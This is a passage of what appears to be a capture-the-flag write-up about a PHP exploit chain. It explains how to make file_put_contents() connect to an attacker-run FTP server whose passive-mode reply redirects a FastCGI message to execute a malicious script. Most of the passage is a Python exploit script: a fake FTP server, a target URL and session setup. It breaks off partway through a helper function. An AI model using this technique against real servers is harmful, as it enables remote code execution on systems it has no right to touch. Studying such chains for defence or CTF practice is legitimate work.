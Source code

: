 and the last last step is the the abuse of the fastcgi 

we will trick file_put_contents() into connecting to the ftp we control and sending a FastCGI message that would execute the malicious script.

```python3
import requests
import hashlib
import struct
import time
import threading
import socketserver

# FTP Server Config
LOCAL_PORT = 9000
REMOTE_FTP_SERVER = "127.0.0.1:31337"

class FakeFTP(socketserver.StreamRequestHandler):
    def _send(self, cmd):
        print(f'Sent "{cmd.decode()}"')
        self.wfile.write(cmd + b'\r\n')

    def handle(self):
        print('A new connection appears!')
        self._send(b'200 oh hai')
        while True:
            cmd = self.rfile.readline().rstrip()
            print(f'Got "{cmd.decode()}"')

            if cmd:
                cmd = cmd.split()[0]

            if cmd in (b'USER', b'TYPE'):
                self._send(b'200 ok')
            elif cmd in (b'SIZE', b'EPSV'):
                self._send(b'500 nope')
            elif cmd == b'PASV':
                self._send(f'227 go to (127,0,0,1,{LOCAL_PORT // 256},{LOCAL_PORT % 256})'.encode())
            elif cmd == b'STOR':
                self._send(b'150 do it!')
                self._send(b'226 nice knowing you')
            elif cmd in (b'', b'QUIT'):
                print('All done!')
                break
            else:
                raise Exception('Unknown command')

# Start FTP Server
def start_ftp():
    with socketserver.TCPServer(('', 31337), FakeFTP) as server:
        print('Welcome to FakeFTP')
        server.serve_forever()

ftp_thread = threading.Thread(target=start_ftp, daemon=True)
ftp_thread.start()

TARGET = "http://127.0.0.1:8002"

s = requests.Session()
s.cookies.set("PHPSESSID", "strellmao")
folder = hashlib.md5("strellmao".encode()).hexdigest()

def create(s, filename, symlink=None):
    while True:
```
